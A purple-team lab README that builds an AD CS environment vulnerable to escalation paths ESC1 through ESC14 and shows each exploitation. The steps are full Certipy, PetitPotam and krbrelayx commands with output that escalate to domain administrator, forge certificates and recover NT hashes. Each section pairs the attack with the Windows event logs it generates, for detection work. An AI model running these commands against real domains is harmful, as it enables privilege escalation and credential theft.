


# Introduction

This github repository contains details about how to setup environnement vulnerable to most of the ADCS escalation path existing so far. 
It also contains details about how to exploit them, and more importantly, logs that are being generated during their exploitations. 
Those tests helped me write the article : "A Deep Dive into detecting ADCS Attacks". 

# 1. Add the AD CS role to a windows server

I followed this [guide](https://www.virtuallyboring.com/setup-microsoft-active-directory-certificate-services-ad-cs/) to add the AD CS role to one of my domain controller. 

- On the server Manager click on **Add roles and features**

- Under Server Roles choose **Active Directory Certificate Services** and only choose the feature **Certification Authority** and let the others values by default

- Access the snap-in **Certification Authority** 


- Renew the CA of the root Authority 


We can see here the list of certificate for the Root-CA : 


# 2. Enable ADCS related logs

For our server to be able to generate ADCS related logs, we need to enable the **Audit Certification Services** audit policy : 


We also need to enable the logs of the ADCS object itself :


# 3. ESC1 

## 3.1 Create a vulnerable template

- Access the **Certification Authority** mmc snap-in

- Right-Click on **Certificate Templates** and **Manage**

- Duplicate the **User** Certificate Template

- Change the certificate template configurations to match the following


- Issue the new certificate so users can enroll it


Now we can exploit the ESC1 misconfiguration from our kali.

## 3.2 Exploitation

### Request a certificate

From the attacker machine we can request a certificate using the vulnerable ESC1 template.
```
└─$ certipy-ad req -u attacker@purpleteam.local -p '1attacker*' -ca DC01-ca -template Vuln-ESC1 -upn administrator@purpleteam.local -dc-ip 172.16.0.1
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 19
[*] Got certificate with UPN 'administrator@purpleteam.local'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

## 3.3 ADCS event logs

2 events are being generated : 

- Certificate Services received a certificate request (event id 4886)


- Certificate Services approved a certificate request (4887)


# 4. ESC2 

## 4.1 Create a vulnerable template

- From the duplicated User certificate template, apply the following configuration 

## 4.2 Exploitation

The ESC2 escalation path can be used like a ESC1 (if we can specify a SAN), else we can use it like an ESC3. 
The ESC1 method will generate the same type of log as observed above. The ESC3 method will however generate different logs.

- Request to a vulnerable template 
```
└─$ certipy req -u attacker@purpleteam.local -p '1attacker*' -ca DC01-CA -template "Vuln-ESC2"  -dc-ip 172.16.0.1 -out cert
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 25
[*] Successfully requested certificate
[*] Got certificate without identity
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'cert.pfx'
[*] Wrote certificate and private key to 'cert.pfx'
```
This first step doesn't generates pertinent logs outside 4768 with certipy ticket option.

- Use the issued certificate to request another certificate on behalf of the targeted user
```
└─$ certipy req -u attacker@purpleteam.local -p '1attacker*' -ca DC01-CA -template "user"  -dc-ip 172.16.0.1 -on-behalf-of 'purpleteam\administrator' -sid 'S-1-5-21-2903762927-2752062241-1101764633-500' -pfx cert.pfx 
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 26
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator@purpleteam.local'
[*] Certificate object SID is 'S-1-5-21-2903762927-2752062241-1101764633-500'
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
```

## 4.3 ADCS event logs

Both step will generate event id 4886 & 4887 however only the second one shows pertinent information from a detection point of view.


# 5. ESC3 

## 5.1 Create a vulnerable template

There is 2 possible ways to create a certificate template vulnerable to ESC3. In both cases, the attack path is the same.  

- Right-Click on **Certificate Templates** and **Manage**

- Duplicate the **User** Certificate Template

- Change the certificate template configurations to match the following


- Issue the new certificate so users can enroll it


## 5.2 Exploitation

- Use the ESC3 vulnerable template to request a certificate

```
└─$ certipy req -u attacker@purpleteam.local -p '1attacker*' -dc-ip 172.16.0.1 -ca DC01-CA -target 'purpleteam.local' -template 'Vuln-ESC3'
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 35
[*] Successfully requested certificate
[*] Got certificate with UPN 'attacker@purpleteam.local'
[*] Certificate object SID is 'S-1-5-21-2903762927-2752062241-1101764633-1114'
[*] Saving certificate and private key to 'attacker.pfx'
File 'attacker.pfx' already exists. Overwrite? (y/n - saying no will save with a unique filename): y
[*] Wrote certificate and private key to 'attacker.pfx'
```

- Use this certificate to enroll any template on behald of the targeted account
```
└─$ certipy req -u attacker@purpleteam.local -p '1attacker*' -dc-ip 172.16.0.1 -ca DC01-CA -target 'purpleteam.local' -template 'User' -on-behalf-of administrator -pfx attacker.pfx 
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 36
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator@purpleteam.local'
[*] Certificate object SID is 'S-1-5-21-2903762927-2752062241-1101764633-500'
[*] Saving certificate and private key to 'administrator.pfx'
File 'administrator.pfx' already exists. Overwrite? (y/n - saying no will save with a unique filename): y
[*] Wrote certificate and private key to 'administrator.pfx'
```

## 5.3 ADCS event logs

Here is a capture of event id 4887 being generated during the second step. 


# 6. ESC5

Here I directly used the built-in Administrator domain account to access the CA and retrieve its certificate and private key. 
I thus didn't needed to setup anything special for being able to test this attack.

## 6.1 Exploitation

- Retrieve the CA's certificate and private key
```
└─$ certipy ca -backup -u "administrator" -p "mAqAyknz68" -ca DC01-CA -target 172.16.0.1
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Creating new service for backup operation
[*] Creating backup
[*] Retrieving backup
[*] Got certificate and private key
[*] Backing up original PFX/P12 to 'pfx.p12'
File 'pfx.p12' already exists. Overwrite? (y/n - saying no will save with a unique filename): y
[*] Backed up original PFX/P12 to 'pfx.p12'
[*] Saving certificate and private key to 'DC01-CA.pfx'
File 'DC01-CA.pfx' already exists. Overwrite? (y/n - saying no will save with a unique filename): y
[*] Wrote certificate and private key to 'DC01-CA.pfx'
[*] Cleaning up
```

- Forge a pfx file

```
┌──(kali㉿kali)-[~]
└─$ certipy forge -ca-pfx 'DC01-CA.pfx' -upn administrator@purpleteam.local
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Saving forged certificate and private key to 'administrator_forged.pfx'
[*] Wrote forged certificate and private key to 'administrator_forged.pfx'
```

## 6.2 Event logs

As there is no certificate request made to the CA, there is no ADCS related logs. I however enabled few audit policy to still be able to monitor the activity. 
You can find below details about logs that were generated.

1. Service creation through svcctl named pipe


2. CMD.exe execution by services.exe


3. certutil.exe execution by cmd.exe


4. Reading .pfx file through RPC


certipy.pfx is an hardcoded value within certipy code under the get_backup function :
```
try:
            share = "C$"
            tid = smbclient.connectTree(share)
            file_path = "\\Windows\\Tasks\\certipy.pfx"
```

5. Deleting .pfx file


6. Cleaning evidences


# 7. ESC6

## 7.1 Make the CA vulnerable

The flag **EDITF_ATTRIBUTESUBJECTALTNAME2** need to be enabled on the CA authority.

We can activate this flag on the CA through the following command : 
```
C:\Users\Administrator>certutil -setreg policy\EditFlags +EDITF_ATTRIBUTESUBJECTALTNAME2
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\CertSvc\Configuration\DC01-CA\PolicyModules\CertificateAuthority_MicrosoftDefault.Policy\EditFlags:

Old Value:
  EditFlags REG_DWORD = 11014e (1114446)
    EDITF_REQUESTEXTENSIONLIST -- 2
    EDITF_DISABLEEXTENSIONLIST -- 4
    EDITF_ADDOLDKEYUSAGE -- 8
    EDITF_BASICCONSTRAINTSCRITICAL -- 40 (64)
    EDITF_ENABLEAKIKEYID -- 100 (256)
    EDITF_ENABLEDEFAULTSMIME -- 10000 (65536)
    EDITF_ENABLECHASECLIENTDC -- 100000 (1048576)

New Value:
  EditFlags REG_DWORD = 15014e (1376590)
    EDITF_REQUESTEXTENSIONLIST -- 2
    EDITF_DISABLEEXTENSIONLIST -- 4
    EDITF_ADDOLDKEYUSAGE -- 8
    EDITF_BASICCONSTRAINTSCRITICAL -- 40 (64)
    EDITF_ENABLEAKIKEYID -- 100 (256)
    EDITF_ENABLEDEFAULTSMIME -- 10000 (65536)
    EDITF_ATTRIBUTESUBJECTALTNAME2 -- 40000 (262144)
    EDITF_ENABLECHASECLIENTDC -- 100000 (1048576)
CertUtil: -setreg command completed successfully.
The CertSvc service may need to be restarted for changes to take effect.
```

We then need to restart the service : 
We need to restart the service :
```
C:\Users\Administrator>net stop certsvc
The Active Directory Certificate Services service is stopping.
The Active Directory Certificate Services service was stopped successfully.

C:\Users\Administrator>net start certsvc
The Active Directory Certificate Services service is starting.
The Active Directory Certificate Services service was started successfully.
```

## 7.2 Exploitation

We can either target a user or a computer account. 

### Request a certificate by specifying an user account in the SAN
```
└─$ certipy req -u attacker@purpleteam.local -p "1attacker*" -dc-ip 172.16.0.1 -ca 'DC01-CA' -template "User" -upn "administrator@purpleteam.local" 
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 37
[*] Successfully requested certificate##
[*] Got certificate with UPN 'administrator@purpleteam.local'
[*] Certificate object SID is 'S-1-5-21-2903762927-2752062241-1101764633-1114'
[*] Saving certificate and private key to 'administrator.pfx'
File 'administrator.pfx' already exists. Overwrite? (y/n - saying no will save with a unique filename): y
[*] Wrote certificate and private key to 'administrator.pfx'
```

### Request a certificate by specifying a computer account in the SAN
```
─$ certipy req -u attacker@purpleteam.local -p "1attacker*" -dc-ip 172.16.0.1 -ca 'DC01-CA' -template "User" -dns "dc01.purpleteam.local"          
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 38
[*] Successfully requested certificate
[*] Got certificate with DNS Host Name 'dc01.purpleteam.local'
[*] Certificate object SID is 'S-1-5-21-2903762927-2752062241-1101764633-1114'
[*] Saving certificate and private key to 'dc01.pfx'
[*] Wrote certificate and private key to 'dc01.pfx'
```

## 7.3 ADCS event logs

Here are the logs generated for a request made by specifying a user account :


Here are the one being generated for a request made by specifying a computer account : 


# 8. ESC7

To abuse ESC7, we need eitheir to control an account that is local admin on the CA or has ManageCA rights. 

## 8.1 Add ManageCA rights to the attacker account

We can do it by going on the "Certificate Authority" tool, then modifying the properties of our CA to add the following permission (ManageCA) to the attacker account :


I also duplicated the SubCA template but without any changes (outside of the template name).

## 8.2 Exploitation

- We first need to add the officer role to our account
```
└─$ certipy ca -u attacker@purpleteam.local -p "1attacker*" -dc-ip 172.16.0.1 -ca 'DC01-CA' -add-officer 'attacker'
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Successfully added officer 'attacker' on 'DC01-CA'
```

- We can then enable the vulnerable Template
```
└─$ certipy ca -u attacker@purpleteam.local -p "1attacker*" -dc-ip 172.16.0.1 -ca 'DC01-CA' -enable-template 'Vuln-ESC7'                            
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Successfully enabled 'Vuln-ESC7' on 'DC01-CA'
```

- We can now enroll this template 
```
└─$ certipy req -u attacker@purpleteam.local -p "1attacker*" -dc-ip 172.16.0.1 -ca 'DC01-CA' -upn 'administrator@purpleteam.local' -template 'Vuln-ESC7' -sid 'S-1-5-21-2903762927-2752062241-1101764633-500'
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 51
[!] Certificate request is pending approval
Would you like to save the private key? (y/N): y
[*] Saving private key to '51.key'
[*] Wrote private key to '51.key'
[-] Failed to request certificate
```
This template needs manager approval before being issued. 

- We can issue the template as we added the ManageCertificates right to the attacker account
```
└─$ certipy ca -u attacker@purpleteam.local -p "1attacker*" -dc-ip 172.16.0.1 -ca 'DC01-CA' -issue-request 51
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Successfully issued certificate request ID 51
```

- We can finally retrieve the certificate
```
└─$ certipy req -u attacker@purpleteam.local -p "1attacker*" -dc-ip 172.16.0.1 -ca 'DC01-CA' -retrieve 51 
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Retrieving certificate with ID 51
[*] Successfully retrieved certificate
[*] Got certificate with UPN 'administrator@purpleteam.local'
[*] Certificate object SID is 'S-1-5-21-2903762927-2752062241-1101764633-500'
[*] Loaded private key from '51.key'
[*] Saving certificate and private key to 'administrator.pfx'
File 'administrator.pfx' already exists. Overwrite? (y/n - saying no will save with a unique filename): y
[*] Wrote certificate and private key to 'administrator.pfx'
```

## 8.3 ADCS event logs

Various ADCS logs are being generated. Here are the most interesting one. 
- Event 4882 is being generated when adding the officer role to the attacker account.

This can be an interesting event to monitor to track any new right addition.

- Event 4892 when we enabled the vulnerable certificate template


- Event 4886 & 4887 when we enrolled the vulnerable certificate template



# 9. ESC8

## 9.1 Setup the Certification Authority Web Enrollment feature

To do so, we can just select Certificate Enrollment 


We then need to do the following : 
- After installation, open **Server Manager** again
- Go to **AD CS in** the left pane
- Click **More** in the yellow bar if prompted
- Click **Configure AD CS**
- Select your credentials
- Only check the box for: ✅ Certification Authority Web Enrollment
- Complete the wizard


## 9.2 Exploitation

```NB : As my AD CS role was added to my only Domain Controller, I couldn't force the DC to authenticate to my server and relay it to itself. This is due to a security feature added by Microsoft to prevent self relay.```

However, we can still abuse such configuration using Kerberos. The article [Sysadmins in Shambles](https://blog.async.sg/sysadmins-in-shambles) explain it well.

1. Add a DNS Record
```
┌──(kali㉿kali)-[~/Desktop/CVE-2025-33073]
└─$ python dnstool.py -u 'PURPLETEAM.LOCAL\attacker' -p '1attacker*' -dc-ip 172.16.0.1 -dns-ip 172.16.0.1 -a add -r dc011UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA -d 172.16.0.100  172.16.0.1
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Adding new record
[+] LDAP operation completed successfully
```

2. PetitPotam coercion
```
python3 PetitPotam.py -u 'attacker' -p '1attacker*' dc011UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA dc01.purpleteam.local

Trying pipe lsarpc
[-] Connecting to ncacn_np:dc01.purpleteam.local[\PIPE\lsarpc]
[+] Connected!
[+] Binding to c681d488-d850-11d0-8c52-00c04fd90f7e
[+] Successfully bound!
[-] Sending EfsRpcOpenFileRaw!
[-] Got RPC_ACCESS_DENIED!! EfsRpcOpenFileRaw is probably PATCHED!
[+] OK! Using unpatched function!
[-] Sending EfsRpcEncryptFileSrv!
[+] Got expected ERROR_BAD_NETPATH exception!!
[+] Attack worked!
```

3. Krbrelayx.py (modified version to remove the NTLM relay and force the kerberos usage. More detail in the article above : Sysadmins in shambles)
```
python3 krbrelayx.py --target 'http://DC01.purpleteam.local/certsrv/certfnsh.asp' --adcs --template 'Domain Controller' --victim 'DC01$' 
[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client SMB loaded..
[*] Running in attack mode to single host
[*] Running in kerberos relay mode because no credentials were specified.
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up DNS Server

[*] Servers started, waiting for connections
[*] SMBD: Received connection from 172.16.0.1
[*] HTTP server returned status code 200, treating as a successful login
[*] Generating CSR...
[*] CSR generated!
[*] Getting certificate...
[*] GOT CERTIFICATE! ID 54
```

## ADCS event logs

1. 4886 
```
Certificate Services received a certificate request.
	
Request ID:	54
Requester:	PURPLETEAM\DC01$
Attributes:	
CertificateTemplate:DomainController
ccm:DC01.purpleteam.local
```

2. 4887
```
Certificate Services approved a certificate request and issued a certificate.
	
Request ID:	54
Requester:	PURPLETEAM\DC01$
Attributes:	
CertificateTemplate:DomainController
ccm:DC01.purpleteam.local
Disposition:	3
SKI:		78 a0 a1 97 f1 36 d9 04 b8 9d c5 70 53 47 33 fd 75 14 67 df
Subject:	CN=DC01.purpleteam.local
```

# 10. ESC9

## 10.1 Create a vulnerable template
We duplicate the User certificate template, change its name under the **Subject Name** tab and setup the following condition. 


Under the ADSI Edit tool, we need to do the following : 


Then edit the ESC9 properties and under the security flag add the following rights to domain users (or only the attacker account) : 


Then, on the ADCS server, open regedit.exe and add a DCWORD (32-bit) value with the name StrongCertificateBindingEnforcement : 


```NB : We also need to create an account on which the attacker have enough right to modify its attributes. I created a victim account and gave FullControll to my attacker account.```

## 10.2 Exploitation
1. Use a ShadowCredential attack to compromise the victim account.
```
└─$ certipy shadow auto -username 'attacker@purpleteam.local' -p '1attacker*' -account 'victim'                
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: PURPLETEAM.LOCAL.
[!] Use -debug to print a stacktrace
[*] Targeting user 'victim'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '611ad1d33abf4555859c223674160e40'
[*] Adding Key Credential with device ID '611ad1d33abf4555859c223674160e40' to the Key Credentials for 'victim'
[*] Successfully added Key Credential with device ID '611ad1d33abf4555859c223674160e40' to the Key Credentials for 'victim'
[*] Authenticating as 'victim' with the certificate
[*] Certificate identities:
[*]     No identities found in this certificate
[*] Using principal: 'victim@purpleteam.local'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'victim.ccache'
[*] Wrote credential cache to 'victim.ccache'
[*] Trying to retrieve NT hash for 'victim'
[*] Restoring the old Key Credentials for 'victim'
[*] Successfully restored the old Key Credentials for 'victim'
[*] NT hash for 'victim': 426b549fe65d8fca40c950331006af8c
```

2. Modify its UPN to match the one of the targeted account
```
┌──(kali㉿kali)-[~/Desktop]
└─$ certipy account update -username "attacker@purpleteam.local" -p '1attacker*' -user victim -upn administrator
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: PURPLETEAM.LOCAL.
[!] Use -debug to print a stacktrace
[*] Updating user 'victim':
    userPrincipalName                   : administrator
[*] Successfully updated 'victim'
```

3. Request a certificate using the vulnerable template
```
┌──(kali㉿kali)-[~/Desktop]
└─$ certipy req -username "victim@purpleteam.local" -hashes '426b549fe65d8fca40c950331006af8c' -target 172.16.0.1 -ca 'DC01-CA' -template 'ESC9'
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: PURPLETEAM.LOCAL.
[!] Use -debug to print a stacktrace
[*] Requesting certificate via RPC
[*] Request ID is 56
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
```

4. Undone the changes performed at Step 2
```
┌──(kali㉿kali)-[~/Desktop]
└─$ certipy account update -username "attacker@purpleteam.local" -p '1attacker*' -user victim -upn victim@purpleteam.local                      
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: PURPLETEAM.LOCAL.
[!] Use -debug to print a stacktrace
[*] Updating user 'victim':
    userPrincipalName                   : victim@purpleteam.local
[*] Successfully updated 'victim'
```

5. Now if we authenticates using the retrieved certificate, we will get a TGT for the built-in Administrator account
```
┌──(kali㉿kali)-[~/Desktop]
└─$ certipy auth -pfx administrator.pfx -domain purpleteam.local -dc-ip 172.16.0.1
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator'
[*] Using principal: 'administrator@purpleteam.local'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@purpleteam.local': aad3b435b51404eeaad3b435b51404ee:aae723d86a44672c3e7868e441f92f02
```

## 10.3 ADCS event logs

1. 4887 

Seems not detectable as there is no mention of the usurpated administrator upn. The log 4886 doesn't contains any pertinent info as well.

2. 5136


To be able to generate the 5136 event ID I needed to enable the **Audit Directory Service Changes**. I also need to add a SACL to monitor changes on the UserPrincipalName attribute.
I did it using [Set-AuditRule.ps1](https://github.com/OTRF/Set-AuditRule/blob/master/Set-AuditRule.ps1) script.

I first need to retrieve the GUID of the UserPrincipalName attribute : 
```
PS C:\Users\Administrator> Get-ADObject -LDAPFilter "(lDAPDisplayName=userPrincipalName)" -SearchBase (Get-ADRootDSE).schemaNamingContext -Properties schemaIDGUID |
>> ForEach-Object {
>>     [guid]$guid = $_.schemaIDGUID
>>     "$($_.lDAPDisplayName) GUID: $guid"
>> }
 GUID: 28630ebb-41d5-11d1-a9c1-0000f80367c1
PS C:\Users\Administrator>
```

I can now add a SACL :
```
PS C:\Users\Administrator> Import-Module ActiveDirectory
PS C:\Users\Administrator> Get-PSDrive -PSProvider ActiveDirectory

Name           Used (GB)     Free (GB) Provider      Root                                               CurrentLocation
----           ---------     --------- --------      ----                                               ---------------
AD                                     ActiveDire... //RootDSE/
```
```
PS C:\Users\Administrator> Set-AuditRule -AdObjectPath 'AD:\CN=Users,DC=purpleteam,DC=local' -WellKnownSidType WorldSid -Rights WriteProperty -InheritanceFlags Children -AttributeGUID 28630ebb-41d5-11d1-a9c1-0000f80367c1 -AuditFlags Success
```

Now any changes of the UserPrincipalName attribute for any user account should be logged.


# 11. ESC13

## 11.1 Setup the environment to be vulnerable to an ESC13 attack

1. Create a Universal Group


This group must be empty. 
To illustrate the privilege escalation, I added a DACL to administrator account to allow the ESC13_Group to have full control over this account.

2. Create an OID under the AD's configuration naming context. 
The flags displayname, msDS-OIDToGroupLink and msPKI-Cert-Template-OID should be filled. 
```NB : For the OID we can generated a custom string such has the one here : 1.3.6.1.4.1.311.21.8.8553382.7995390.4934840.12506139.5198080.145.10460114.99027364```

This string should be unique among the existing OID and each "byte" should not have more than 16 chars. This value is filled in the **msPKI6Cert-Template-OID**.
For the **msDS-OIDToGroupLink**, the value to put is the DN of a group that will be linked to this OID which will add to our TGT, later on, the rights of this group.


3. Create the vulnerable certificate template with the InsuancePolicy we created earlier. I can just duplicate the User template and add this extension : 


Then I can just allow it to be enrolled by any domain users & publish this certificate template.


## 11.2 Exploitation

1. Request the vulnerable template
```
└─$ certipy req -u "attacker@purpleteam.local" -p "1attacker*"  -dc-ip 172.16.0.1 -target "172.16.0.1" -ca 'DC01-CA' -template 'Vuln-ESC13'
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 61
[*] Successfully requested certificate
[*] Got certificate with UPN 'attacker@purpleteam.local'
[*] Certificate object SID is 'S-1-5-21-2903762927-2752062241-1101764633-1114'
[*] Saving certificate and private key to 'attacker.pfx'
File 'attacker.pfx' already exists. Overwrite? (y/n - saying no will save with a unique filename): y
```

2. Request a TGT using pass the certificate
```
└─$ certipy auth -pfx attacker.pfx -u attacker -dc-ip 172.16.0.1
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'attacker@purpleteam.local'
[*]     Security Extension SID: 'S-1-5-21-2903762927-2752062241-1101764633-1114'
[*] Using principal: 'attacker@purpleteam.local'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'attacker.ccache'
[*] Wrote credential cache to 'attacker.ccache'
[*] Trying to retrieve NT hash for 'attacker'
[*] Got hash for 'attacker@purpleteam.local': aad3b435b51404eeaad3b435b51404ee:799f0d26fc89903a127cc2e408f173a5
```

3. Setup the KRB5CCNAME env variable
```
┌──(kali㉿kali)-[~]
└─$ export KRB5CCNAME=./attacker.ccache 
```

4. Using this TGT (which should have elevated privileges on Administrator account due to ESC13 linked OID Insuance policy), we perform a shadow credential attack on the Administrator account
```
└─$ certipy shadow auto -u 'attacker' -k -account 'administrator' -dc-host dc01.purpleteam.local
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[!] Target name (-target) not specified and Kerberos authentication is used. This might fail
[!] DNS resolution failed: The DNS query name does not exist: dc01.purpleteam.local.
[!] Use -debug to print a stacktrace
[*] Targeting user 'Administrator'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID 'bdfe89f2d83a4eaeaa1547bfb6317712'
[*] Adding Key Credential with device ID 'bdfe89f2d83a4eaeaa1547bfb6317712' to the Key Credentials for 'Administrator'
[*] Successfully added Key Credential with device ID 'bdfe89f2d83a4eaeaa1547bfb6317712' to the Key Credentials for 'Administrator'
[*] Authenticating as 'Administrator' with the certificate
[*] Certificate identities:
[*]     No identities found in this certificate
[*] Using principal: 'administrator@purpleteam.local'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
File 'administrator.ccache' already exists. Overwrite? (y/n - saying no will save with a unique filename): y
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Restoring the old Key Credentials for 'Administrator'
[*] Successfully restored the old Key Credentials for 'Administrator'
[*] NT hash for 'Administrator': aae723d86a44672c3e7868e441f92f02
```

## 11.3 ADCS event logs

Unfortunatly, the ADCS related logs are not really pertinent for a detection point of view : 
```
Certificate Services approved a certificate request and issued a certificate.
	
Request ID:	61
Requester:	PURPLETEAM\attacker
Attributes:	CertificateTemplate:Vuln-ESC13
Disposition:	3
SKI:		d7 61 a4 af d7 4e 51 50 ef 24 65 a7 33 c5 83 22 b6 93 09 13
Subject:	E=attacker@purpleteam.local, CN=attacker, CN=Users, DC=purpleteam, DC=local
```

# 12 ESC14 - Scenario B

## 12.1 Setup a vulnerable configuration

### Certificate configuration

We need to duplicate the User certificate template and configure the followings under **Extensions** tab :


We also need to autorize this certificate to be enrolled by domain users group.

In addition, we need to set the **CT_FLAG_NO_SECURITY_EXTENSION** in **msPKI-Enrollment-Flag** (same as ESC9) :
.

### Setup StrongCertificateBindingEnforcement registry

To be able to exploit the ESC14 B scenario, the StrongCertificateBindingEnforcement registry should be set to 0 or 1.


### Setup the weak explicit mapping on victimESC14 user

To do so, we need to modify the altSecurityIdentities attribute of victimESC14.


## 12.2 Exploitation

1. Ensure that there victimESC14 account has a weak explicit mapping setup
```
┌──(kali㉿kali)-[~]
└─$ python3 GetWeakExplicitMappings.py --dc-host 172.16.0.1 -d purpleteam.local -u attacker -p '1attacker*'
[+] Connecion OK
[+] CN=victimESC14,CN=Users,DC=purpleteam,DC=local
   - X509:<RFC822>victimESC14@purpleteam.local
```                                                                                           

2. Modify victim e-mail attribute to victimESC14@purpleteam.local
```                                                
┌──(kali㉿kali)-[~]
└─$ ldapmodify -x -H ldap://172.16.0.1 -D "CN=attacker,CN=Users,DC=purpleteam,DC=local" -w "1attacker*" -f change_email.ldif
modifying entry "CN=victim,CN=Users,DC=purpleteam,DC=local"
```    

3. Request a certificate with the victim account             
```                                 
┌──(kali㉿kali)-[~]
└─$ certipy req -u 'victim@purpleteam.local' -p 'victim' -ca DC01-CA -dc-ip 172.16.0.1 -template "Vuln-ESC14-B" 
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 68
[*] Successfully requested certificate
[*] Got certificate without identity
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'victim.pfx'
[*] Wrote certificate and private key to 'victim.pfx'
```

4. Use the generated certificate to authenticate as victimESC14 
```                                                      
┌──(kali㉿kali)-[~]
└─$ certipy auth -pfx victim.pfx -dc-ip 172.16.0.1 -username victimESC14 -domain purpleteam.local               
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     No identities found in this certificate
[!] Could not find identity in the provided certificate
[*] Using principal: 'victimesc14@purpleteam.local'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'victimesc14.ccache'
[*] Wrote credential cache to 'victimesc14.ccache'
[*] Trying to retrieve NT hash for 'victimesc14'
[*] Got hash for 'victimesc14@purpleteam.local': aad3b435b51404eeaad3b435b51404ee:129bc7e8c675bb6014f18aef918c98d5
```

## 12.3 Event Logs

1. 4887 


2. 5136


Here also we need to add the SACL but this time on the mail attribute.

```
